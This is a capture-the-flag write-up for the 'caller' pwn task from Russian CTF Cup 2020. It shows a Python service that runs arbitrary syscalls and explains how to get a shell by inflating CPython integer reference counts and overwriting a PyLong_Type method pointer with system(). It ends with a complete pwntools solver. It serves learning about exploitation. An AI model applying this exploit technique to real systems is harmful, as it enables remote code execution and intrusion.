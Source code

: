+++
title = 'Russian CTF Cup 2020 — caller'
date = 2020-11-19T12:37:06+03:00
tags = ['ctf', 'writeup', 'pwn']
toc = true
tldr = 'abuse single system call primitive to gain RCE in CPython'
+++

## Source code

Full source code is available here: [https://github.com/keltecc/ctfcup-2020-quals/tree/main/tasks/pwn/caller](https://github.com/keltecc/ctfcup-2020-quals/tree/main/tasks/pwn/caller)

- **caller.py**

```python
#!/usr/bin/env python3.7

import ctypes


def syscall(number, arguments):
    libc = ctypes.CDLL(None)
    return libc.syscall(number, *arguments)


def main():
    number = input('[?] syscall number: ')
    arguments = input('[?] syscall arguments: ').split(' ')
    number, arguments = int(number), list(map(int, arguments))
    result = syscall(number, arguments)
    print(f'[+] result: {result}')
    return


if __name__ == '__main__':
    main()
```

## Solution

The service allows us to execute an arbitrary system call with the provided arguments using `syscall()` function from libc.

In CPython small integers (from -5 to 256) are singletons and usage of these numbers doesn't allocate new objects:

```
>>> hex(id(100))
'0xaa7400'
>>> hex(id(101))
'0xaa7420'
>>> hex(id(100 + 1))
'0xaa7420'
>>> hex(id(1000))
'0x7f6664bfbb30'
```

But every integer object (as any other CPython object) has a reference counter as the first field in the object structure. For example, if `id(100) == 0xaa7400`, then the address `0xaa7400` contains the number of references to integer 100.

Then let's notice that we could provide unlimited count of arguments to `syscall()` function, it means that we're able to use arbitrary number of integers, and it means that we can increment reference counter of these numbers by desired value. For example, if we send 100 number 1000 times, the reference counter of number 100 will be increased by 1000. Using this method we could write arbitrary value at the start of integer object structure.

Now let's remember that every CPython object has a table with standard methods (such as `str()`, `add()` and so on), and pointers to these methods are stored in the type structure. For the integers the type object is `PyLong_Type` ([implementation](https://github.com/python/cpython/blob/3.7/Objects/longobject.c) in CPython repository). It's important that the challenge prints out the result of the system call, and that result is always integer. Before the number is printed it should be converted from integer to string, for this purpose the special function `long_to_decimal_string()` is used ([source code](https://github.com/python/cpython/blob/3.7/Objects/longobject.c#L1794)). This function accepts the integer as its first argument. The `python3.7` binary contains the `system()` function, so we could replace the pointer to `long_to_decimal_string()` with a pointer to `system()`. In order to do this we could use `read()` system call and write directly to the `PyLong_Type` structure.

Note that the `python3.7` binary does not have PIE and contains many default objects in its static memory, so we know all required addresses.

## Exploitation

- find the address of `PyLong_Type` structure
- find the address of `long_to_decimal_string()` pointer inside the `PyLong_Type` structure, let's call it `PyLong_ToString`
- find the address of `system()` in PLT
- call `read(0, PyLong_ToString, 8)` and overwrite `long_to_decimal_string()` with `system()`
- the return value of system call will be 8, so when this number is printed out the function `str(id(8)) -> system(id(8))` will be called
- in order to place the `sh` string at the `id(8)` address we should create a lot of 8 integers so the reference counter of 8 will be `0x6873`
- since we can provide unlimited count of `syscall()` arguments (and the unused arguments are ignored) we could pass the required number of 8 as unused aguments

## Example solver

```python
#!/usr/bin/env python3.7

import sys

from pwn import remote, p64
from time import sleep


system_plt = 0x421080
PyLong_Type = 0xA25940
PyLong_ToString = PyLong_Type + 17 * 8


def main(io):
    count = int.from_bytes(b'sh\x00', 'little') - 38
    syscall_number = 0
    syscall_arguments = [0, PyLong_ToString, 8]
    syscall_arguments += [8] * count
    io.sendlineafter(b': ', str(syscall_number).encode())
    io.sendlineafter(b': ', ' '.join(map(str, syscall_arguments)).encode())
    sleep(1)
    io.send(p64(system_plt))
    io.interactive()


if __name__ == '__main__':
    IP = sys.argv[1] if len(sys.argv) > 1 else '0.0.0.0'
    PORT = 7703

    with remote(IP, PORT) as io:
        main(io)
```
